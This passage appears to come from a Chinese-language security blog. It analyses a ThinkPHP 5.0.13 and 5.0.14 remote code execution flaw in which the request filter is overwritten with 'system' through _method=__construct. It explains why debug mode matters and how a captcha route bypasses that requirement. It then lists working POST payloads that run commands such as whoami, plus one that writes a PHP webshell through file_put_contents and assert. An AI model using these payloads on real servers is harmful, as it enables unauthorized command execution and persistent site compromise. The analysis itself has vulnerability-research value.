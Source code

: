 可见多了一个`exec`方法把`switch ($dispatch['type'])`摘出来了，然后在`case module`中执行了`module()`，在`module()`中多了两行。
```
// 设置默认过滤机制
$request->filter($config['default_filter']);
```
问题就出在这，回顾我们上文分析5.0.5，是从`App::run()`方法中第一次加载默认filter位置: `thinkphp/library/think/App.php`
```
$request->filter($config['default_filter']);
```
在覆盖的时候可以看到，默认`default_filter`是为空字符串，所以最后便是进入了`$this->filter = $filter`导致`system`值变为空。
```php
public function filter($filter = null){
        if (is_null($filter)) {
            return $this->filter;
        } else {
            $this->filter = $filter;
        }
}
```
接下来就是我们进入了路由`check`，从而覆盖`filter`的值为`system`
![image](https://y4er.com/img/uploads/20191127223884.jpg)

但是在5.0.13中，摘出来的`exec()`中的`module()`方法`thinkphp/library/think/App.php:544` 会重新执行一次`$request->filter($config['default_filter']);` 把我们覆盖好的`system`重新变为了空，导致失败。

**那为什么开了debug就可以rce？**
![image](https://y4er.com/img/uploads/20191127223239.jpg)
这里会先调用`$request->param()`，然后在执行`self::exec($dispatch, $config)`，造成rce。

**那有没有别的办法不开debug直接rce呢？**
和debug的原理一样，switch的时候进入module分支会被覆盖，那就进入到其他的分支。
![image](https://y4er.com/img/uploads/20191127221821.jpg)
在thinkphp5完整版中官网揉进去了一个验证码的路由，可以通过这个路由触发rce

这个是我在5.0.13下试出来的payload `"topthink/think-captcha": "^1.0"`
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```

我们继续
## 5.0.13补充
补充
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
## 5.0.14
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
```